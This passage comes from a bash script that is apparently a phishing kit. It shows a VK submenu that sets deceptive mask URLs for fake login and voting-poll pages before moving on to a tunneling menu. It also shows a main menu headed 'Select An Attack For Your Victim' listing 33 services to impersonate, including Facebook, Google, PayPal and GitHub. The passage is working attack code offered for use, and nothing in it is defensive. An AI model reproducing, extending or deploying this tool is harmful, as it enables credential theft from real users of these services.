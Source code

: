 ## Vk
site_vk() {
	cat <<- EOF
		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page
	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 1 || "$REPLY" == 01 ]]; then
		website="vk"
		mask='http://vk-premium-real-method-2020'
		tunnel_menu
	elif [[ "$REPLY" == 2 || "$REPLY" == 02 ]]; then
		website="vk_poll"
		mask='http://vote-for-the-best-social-media'
		tunnel_menu
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; clear; banner_small; site_vk; }
	fi
}

## Menu
main_menu() {
	{ clear; banner; echo; }
	cat <<- EOF
		${RED}[${WHITE}::${RED}]${ORANGE} Select An Attack For Your Victim ${RED}[${WHITE}::${RED}]${ORANGE}
		${RED}[${WHITE}01${RED}]${ORANGE} Facebook      ${RED}[${WHITE}11${RED}]${ORANGE} Twitch       ${RED}[${WHITE}21${RED}]${ORANGE} DeviantArt
		${RED}[${WHITE}02${RED}]${ORANGE} Instagram     ${RED}[${WHITE}12${RED}]${ORANGE} Pinterest    ${RED}[${WHITE}22${RED}]${ORANGE} Badoo
		${RED}[${WHITE}03${RED}]${ORANGE} Google        ${RED}[${WHITE}13${RED}]${ORANGE} Snapchat     ${RED}[${WHITE}23${RED}]${ORANGE} Origin
		${RED}[${WHITE}04${RED}]${ORANGE} Microsoft     ${RED}[${WHITE}14${RED}]${ORANGE} Linkedin     ${RED}[${WHITE}24${RED}]${ORANGE} DropBox	
		${RED}[${WHITE}05${RED}]${ORANGE} Netflix       ${RED}[${WHITE}15${RED}]${ORANGE} Ebay         ${RED}[${WHITE}25${RED}]${ORANGE} Yahoo		
		${RED}[${WHITE}06${RED}]${ORANGE} Paypal        ${RED}[${WHITE}16${RED}]${ORANGE} Quora        ${RED}[${WHITE}26${RED}]${ORANGE} Wordpress
		${RED}[${WHITE}07${RED}]${ORANGE} Steam         ${RED}[${WHITE}17${RED}]${ORANGE} Protonmail   ${RED}[${WHITE}27${RED}]${ORANGE} Yandex			
		${RED}[${WHITE}08${RED}]${ORANGE} Twitter       ${RED}[${WHITE}18${RED}]${ORANGE} Spotify      ${RED}[${WHITE}28${RED}]${ORANGE} StackoverFlow
		${RED}[${WHITE}09${RED}]${ORANGE} Playstation   ${RED}[${WHITE}19${RED}]${ORANGE} Reddit       ${RED}[${WHITE}29${RED}]${ORANGE} Vk
		${RED}[${WHITE}10${RED}]${ORANGE} Tiktok        ${RED}[${WHITE}20${RED}]${ORANGE} Adobe        ${RED}[${WHITE}30${RED}]${ORANGE} XBOX
		${RED}[${WHITE}31${RED}]${ORANGE} Mediafire     ${RED}[${WHITE}32${RED}]${ORANGE} Gitlab       ${RED}[${WHITE}33${RED}]${ORANGE} Github
		${RED}[${WHITE}99${RED}]${ORANGE} About         ${RED}[${WHITE}00${RED}]${ORANGE} Exit
	EOF
	